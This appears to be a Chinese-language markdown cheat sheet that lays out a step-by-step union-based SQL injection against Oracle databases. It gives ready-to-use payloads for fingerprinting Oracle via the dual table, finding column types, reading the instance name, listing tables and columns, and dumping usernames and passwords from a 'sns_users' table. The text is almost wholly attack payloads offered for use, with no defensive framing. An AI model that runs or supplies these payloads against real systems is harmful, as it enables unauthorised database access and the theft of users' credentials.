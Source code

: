 




# OracleSQL注入

## 注入流程

```bash
#1.判断数据库为oracle
提交注释字符/*，返回正常即是MySQL，否则继续提交注释符号--，该符号是Oracle和MSSQL支持的注释符，返回正常就需要继续判断。
可以继续提交多语句支持符号; 如果支持多行查询，说明是MSSQL，因为Oracle不支持多行查询，可以继续提交查询语句：

#oracle：独有的虚拟表 dual：    
(select count(*) from dual)<>0


#2.order by 定字段


#Union联合查询：
#3.一个一个去判断字段类型
union select null,null from dual
#确定是str型的
id=-1%20union%20select%20%27a%27,%27null%27%20from%20dual

#4.数据库
union%20select%20(select%20instance_name%20from%20v$instance),%272%27%20from%20dual

#5.爆数据表
union select (select table_name from all_tables where rownum=1 and table_name like  '%user%'),'2' from dual

#6.爆字段名
第一个字段
 union select '1',(select column_name from all_tab_columns where rownum=1 and table_name='sns_users') from dual
第二个字段
union select '1',(select column_name from all_tab_columns where rownum=1 and table_name='sns_users' and column_name <> 'user_name') from dual

#7.爆数据
#爆某表中的第一行数据：
union select 1,字段1||字段2...||字段n from 表名 where rownum=1 --
第一个
union select user_name,user_pwd from "sns_users" 
第二个
union select user_name,user_pwd from "sns_users"  where user_name <> 'hu'



------


```
